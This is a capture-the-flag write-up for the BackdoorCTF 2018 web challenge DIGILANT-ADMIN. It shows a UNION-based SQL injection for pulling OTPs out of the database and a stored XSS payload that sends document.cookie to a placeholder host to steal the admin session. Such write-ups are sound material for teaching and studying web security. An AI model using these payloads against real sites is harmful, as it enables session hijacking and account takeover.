 ```yaml
---
layout: post
title: BackdoorCTF 2018 - DIGILANT-ADMIN
author:
  name: Crisis
  github: Qrisis
  twitter: crisiswic
---
```


Here's my solution for the DIGILANT-ADMIN challenge of the *2018 BackdoorCTF*. I'm not sure wether I got the flag the intended way since there has been quite a few technical problems during the event, but here's how I did it anyway.

First of all, this was the challenge's description:  
![](https://i.imgur.com/vemjbMy.png)

Once on the website, you could create an account by providing an email address, and then log in with the OTP sent to that email address.  
![](https://i.imgur.com/Bch0ZOm.png)

Once logged in, the main thing you could do was to post a new message:  
![](https://i.imgur.com/qY08mZY.png)
And report messages to the admin :  
![](https://i.imgur.com/KOyK8oe.png)  

The other interesting thing was the "Giveme flag" page, which stated:
```
No admin No flag
```


So my first idea was of course to try and find an exploitable XSS to log in as admin. I tried a few things, but it wasn't executing on the URL where you could see your post:  
```
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=000af61e777d34ab
```
So I tried a few other things, and I found that the id parameter was vulnerable to an SQL injection and to an XSS injection:  
![](https://i.imgur.com/2pIbQat.png)

I tried to steal the admin cookie with that XSS, but the bot wasn't clicking on my link. And the results of the SQL injections were also confusing at first since I couldn't read them. After testing a few things, I found out why - the results were decrypted as base64 before being returned. So the easy fix was to base64 encode it, as such:  
![](https://i.imgur.com/zXCRAmp.png)

Since I wasn't successfull with the XSS, I decided to try exploiting the SQLi to get the admin pass and OTP. With the help of SQLMap, I dumped the content of the database:  
![](https://i.imgur.com/87bPuIJ.png)  
etc.  
![](https://i.imgur.com/TlhkZJE.png)  
etc.  

And in theory I could have been done since I could have just logged in as "admin" and got the OTP directly from the database:
```sql
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=-1' UNION ALL SELECT to_base64(otp) FROM OTP WHERE umail='2d3686a381fa880ddab@gmail.com' -- -
```
But the problem was that I had no way to know which user was the admin. As you can see on the screenshot above there was many "random hash" accounts, and none of the accounts with the name "admin" in them was the real one. After trying a few of them, I decided to find another way rather than stupidly trying them all.
In the dump of the database, I noticed that many people had reported URLs like this:
![](https://i.imgur.com/UQigMAO.png)

That gave me a big hint. I had already noticed that HTML/JS was being executed on the homepage, and upon closer inspection of the code it turned out that there was a way to exploit an XSS in your posts:
![](https://i.imgur.com/m3cyYe3.png)

You just had to access your post's URL with `&full=true` appended to it:
![](https://i.imgur.com/L8RjsKN.png)

I made a new one with the standard
```html
<script>location.replace('yoursite.com?cookie='+document.cookie)</script>
```
injection, and I got the admin's PHPSESSID on requestbin:  
![](https://i.imgur.com/6kwpoqS.png)

I modified my cookie, but got kicked out:  
```
Login attempted from another IP address. Login again
```
Which was a problem since I still had no idea what the admin username was. But it turned out that if you tried logging in again with any account, you could briefly see the admin's name:  
![](https://i.imgur.com/gFq9PJw.png)

I'm not sure wether this was intended or not. All I had to do then was to login with that username and get the OTP from the database, as shown before. But that wasn't even necessary, because if you entered a wrong OTP, the website would just show you the right one (here I just put "12" in):  
![](https://i.imgur.com/sBZPX8Z.png)

Not sure if that was a bug or not either, but you could then just log in like that. And get the flag from the "Giveme flag" page :  
![](https://i.imgur.com/1jyENgf.png)
